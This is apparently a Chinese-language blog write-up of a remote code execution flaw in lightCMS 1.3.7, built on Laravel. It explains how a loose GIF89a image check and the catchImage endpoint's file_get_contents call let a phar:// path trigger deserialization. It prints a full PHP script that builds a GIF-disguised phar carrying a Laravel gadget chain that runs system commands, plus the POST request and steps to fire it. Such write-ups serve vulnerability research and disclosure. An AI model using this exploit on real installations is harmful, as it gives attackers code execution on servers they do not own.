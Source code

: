```yaml
---
title: "lightcms 1.3.7rce"
date: 2021-06-12T17:19:18+08:00
---
```


`lightCMS`是一个轻量级的`CMS`系统，基于`Laravel 6.x`开发，前端框架基于`layui`。

在后台`/admin/entity/2/contents/create`处，我们可以上传图片。

![image-20210616174448320](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616174448320.png)

通过js的event，我们可以看到与php的绑定。

![image-20210616174924679](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616174924679.png)

看一下源码：

![image-20210616183345964](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616183345964.png)

跟进`isValidImage`：

![image-20210616183519683](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616183519683.png)

`config`配置在`/config/light.php`下：

![image-20210616191616366](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616191616366.png)

同时，代码在`Intervention\Image\Facades\Image`还对图片进行了一次解析，不过这次比较松散，只要**GIF89a**文件头就可以绕过。

正是基于laravel框架，我们可以很容易找到一条可以利用的反序列化链，同时对文件上传的松散我们可以构造rce的phar文件，那么现在需要明确的一点也就是找到可以触发phar的地方。

与文件上传同处，可以发现一处`catchImage`:

![image-20210616192655410](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616192655410.png)

该函数可以通过post请求，下载外部图片于本地。在下载前，有一处`fetchImageFile`对文件进行检测，我们跟进观察：

```
POST /admin/neditor/serve/catchImage
file=http://127.0.0.1/theoyu.txt
```

![image-20210616193421841](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616193421841.png)

可以看到这里开启了`curl`对我们的文件进行了请求，最后对我们`$data`内容进行一次判断，不为**Webp**格式的话则进入`Image::make`，不断调试，最后我们将顺利走到`init()`处:

![image-20210616195743275](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616195743275.png)

我们重点关注`isUrl()`处，因为可以发现`initFromUrl`中：

![image-20210616195929712](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616195929712.png)

会触发file_get_contents进行解析，而该函数可以完美触发phar,接下来看看对`isUrl()`的处理。

```php
    public function isUrl()
    {
        return (bool) filter_var($this->data, FILTER_VALIDATE_URL);
    }
```

可以说是非常友好，对于`FILTER_VALIDATE_URL`只要满足`xxx://xxx`格式即可，而我们要想触发`phar://` 数据流包装器本身也满足该需求。

我们重新回过来分析：

1. 上传phar文件。
2. 在服务器上部署任意可访问文件,内容为`phar://phar文件地址`
3. 通过`catchImage`下载该文件，在判断文件内容时触发本地phar,达到rce。

phar用以下脚本构造即可：

```php
<?php

namespace Illuminate\Broadcasting{
    class PendingBroadcast
    {
        protected $events;
        protected $event;

        public function __construct($events, $event)
        {
            $this->events = $events;
            $this->event = $event;
        }

    }

    class BroadcastEvent
    {
      protected $connection;

      public function __construct($connection)
      {
        $this->connection = $connection;
      }
    }

}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $queueResolver;

        public function __construct($queueResolver)
        {
          $this->queueResolver = $queueResolver;
        }

    }
}

namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent('whoami');

    $dispater = new Illuminate\Bus\Dispatcher("system");

    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.jpg');

}
```

![image-20210616201629961](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616201629961.png)

拿到文件地址，需下载的文件我就直接写在本地了：

```
phar://./upload/image/202106/3nEb7QNkMnVrxyKtlkrBHMyTSH9slDSL7Nl9hRbL.gif
```

![image-20210616201744680](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/06/2021-06-16-image-20210616201744680.png)

参考：

https://xz.aliyun.com/t/9555#toc-2